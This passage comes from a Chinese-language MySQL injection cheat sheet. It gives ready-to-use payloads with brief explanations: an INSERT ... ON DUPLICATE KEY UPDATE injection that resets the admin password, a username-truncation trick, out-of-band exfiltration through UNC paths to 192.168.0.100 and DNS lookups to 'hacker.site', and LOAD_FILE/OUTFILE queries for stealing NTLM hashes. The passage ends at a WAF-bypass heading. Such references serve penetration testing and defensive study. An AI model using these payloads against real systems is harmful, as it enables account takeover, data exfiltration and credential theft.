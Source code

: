 查询看起来像这样：

```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

这条查询将为用户 `"attacker_dummy@example.com"` 插入一行。它还将为用户 `"admin@example.com"` 插入一行。

因为这一行已经存在，`ON DUPLICATE KEY UPDATE` 关键字告诉 MySQL 将现有行的 `password` 列更新为 `"P@ssw0rd"`。之后，我们可以简单地使用 `"admin@example.com"` 和密码 `"P@ssw0rd"` 进行认证。

## MYSQL 截断

在 MYSQL 中，`admin` 和 `admin` 是相同的。如果数据库中的用户名列有字符限制，其余的字符会被截断。因此，如果数据库的列限制为 20 个字符，并且我们输入了一个 21 个字符的字符串，最后的 1 个字符将被移除。

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL 外带

```powershell
SELECT @@version INTO OUTFILE '\\\\192.168.0.100\\temp\\out.txt';
SELECT @@version INTO DUMPFILE '\\\\192.168.0.100\\temp\\out.txt;
```

### DNS 外泄

```sql
SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.hacker.site\\a.txt'));
SELECT LOAD_FILE(CONCAT(0x5c5c5c5c,VERSION(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC 路径 - NTLM 哈希窃取

术语“UNC 路径”指的是用于指定网络上资源（如共享文件或设备）位置的通用命名约定路径。它通常在 Windows 环境中使用，用于通过格式 `\\server\share\file` 访问网络上的文件。

```sql
SELECT LOAD_FILE('\\\\error\\abc');
SELECT LOAD_FILE(0x5c5c5c5c6572726f725c5c616263);
SELECT '' INTO DUMPFILE '\\\\error\\abc';
SELECT '' INTO OUTFILE '\\\\error\\abc';
LOAD DATA INFILE '\\\\error\\abc' INTO TABLE DATABASE.TABLE_NAME;
```

:warning: 不要忘记转义 `'\\'`。

## MYSQL WAF 绕过

### information_schema 的替代方案
